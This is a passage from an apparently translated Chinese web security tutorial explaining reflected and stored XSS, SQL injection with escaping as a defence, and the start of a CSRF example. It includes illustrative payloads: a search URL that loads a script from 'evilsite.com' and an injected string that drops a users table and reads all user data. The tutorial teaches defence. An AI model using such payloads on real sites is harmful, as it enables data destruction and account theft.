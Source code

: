 有两种主要的方法可以让站点将注入的脚本返回到浏览器 -- 通常被称做 反射型 和 持久型 XSS 攻击。

- 反射型 XSS 攻击发生在当传递给服务器的用户数据被立即返回并在浏览器中原样显示的时候 -- 当新页面载入的时候原始用户数据中的任何脚本都会被执行！

  举个例子，假如有个站点搜索函数，搜索项被当作 URL 参数进行编码，这些搜索项将随搜索结果一同显示。攻击者可以通过构造一个包含恶意脚本的搜索链接作为参数（例如 `http://mysite.com?q=beer<script%20src="http://evilsite.com/tricky.js"></script>`），然后把链接发送给另一个用户。如果目标用户点击了这个链接，当显示搜索结果时这个脚本就会被执行。正如上述讨论的，这促使攻击者获取了所有需要以目标用户进入站点的信息 -- 可能会购买物品或分享联系人信息。

- 持久型 XSS 攻击：恶意脚本存储在站点中，然后再原样地返回给其他用户，在用户不知情的情况下执行。

  举个例子，接收包含未经修改的 HTML 格式评论的论坛可能会存储来自攻击者的恶意脚本。这个脚本会在评论显示的时候执行，然后向攻击者发送访问该用户账户所需的信息。这种攻击类型及其常见而且有效，因为攻击者不需要与受害者有任何直接的接触。

  尽管 `POST` 和 `GET` 方式获取到的数据是 XSS 攻击最常见的攻击来源，任何来自浏览器的数据都可能包含漏洞（包括浏览器渲染过的 Cookie 数据以及用户上传和显示的文件等).

防范 XSS 攻击的最好方式就是删除或禁用任何可能包含可运行代码指令的标记。对 HTML 来说，这些包括类似 `<script>`, `<object>`, `<embed>`,和 `<link>` 的标签。

修改用户数据使其无法用于运行脚本或其它影响服务器代码执行的过程被称作输入过滤。许多 Web 框架默认情况下都会对来自 HTML 表单的用户数据进行过滤。

### SQL 注入

SQL 注入漏洞使得恶意用户能够通过在数据库上执行任意 SQL 代码，从而允许访问、修改或删除数据，而不管该用户的权限如何。成功的注入攻击可能会伪造身份信息、创建拥有管理员权限的身份、访问服务器上的任意数据甚至破坏/修改数据使其变得无法使用。

如果传递给底层 SQL 语句的用户输入可以修改该语句的语义，这种漏洞便是存在的。例如下面一段代码，本来是用来根据 HTML 表单提供的特定名字（`userName`) 来列出所有的用户：

```sql
statement = "SELECT * FROM users WHERE name = '" + userName + "';"
```

如果用户输入了真实的名字，这段代码会如预想的运行。然而一个恶意用户可以完全将这个 SQL 语句的行为改变为下面的新语句的行为，只要通过将 `userName`指定为下列“**粗体**”的文本。修改后的代码创建了一个合法的 SQL 语句，该语句删除了整个 `users` 表，然后从 `userinfo` 表中获取了所有数据（所有用户的信息都被暴露了）。这是有效的，因为注入的文本的第一部分 (`a';`) 结束了原来的语句 ( ' 在 SQL 语句中是用来描述字符串常量的) 。

```sql
SELECT * FROM users WHERE name = 'a';DROP TABLE users; SELECT * FROM userinfo WHERE 't' = 't';
```

避免此种攻击的方法就是确保任何传递给 SQL 查询语句的用户数据都无法更改查询的本来用意。有种方式便是将用户输入中任何在 SQL 语句中有特殊含义的字符进行转义。

> **备注：** SQL 语句把 ' 号作为一个字符串常量的开头的结尾。通过在前面放置一个斜杠，我们把单引号进行了转义 ( \\' )，然后 SQL 就会将其视为一个字符（作为字符串的一部分）。

在下面的语句中我们对 ' 字符进行了转义。SQL 会将**粗体**显示的整段字符串解释为 name(这个 name 很古怪，但至少是没有危害的！)

```sql
SELECT * FROM users WHERE name = 'a\';DROP TABLE users; SELECT * FROM userinfo WHERE \'t\' = \'t';
```

Web 框架通常会为你进行这种转义操作。例如 Django，可以确保任何传递给查询集合 (model 查询) 的用户数据都是已经转义过的。

> **备注：** 本章节引用了大量来自 [Wikipedia](https://en.wikipedia.org/wiki/SQL_injection) 的内容。

### 跨站请求伪造 (CSRF)

CSRF 攻击允许恶意用户在另一个用户不知情的情况下利用其身份信息执行操作。

这种形式的攻击用实例来解释最好。John 是一个恶意用户，他知道某个网站允许已登陆用户使用包含了账户名和数额的 HTTP `POST` 请求来转帐给指定的账户。John 构造了包含他的银行卡信息和某个数额做为隐藏表单项的表单，然后通过 Email 发送给了其它的站点用户（还有一个伪装成到“快速致富”网站的链接的提交按钮）。

如果某个用户点击了提交按钮，一个 HTTP `POST` 请求就会发送给服务器，该请求中包含了交易信息以及浏览器中与该站点关联的所有客户端 cookie（将相关联的站点 cookie 信息附加发送是正常的浏览器行为) 。服务器会检查这些 cookie，以判断对应的用户是否已登陆且有权限进行上述交易。
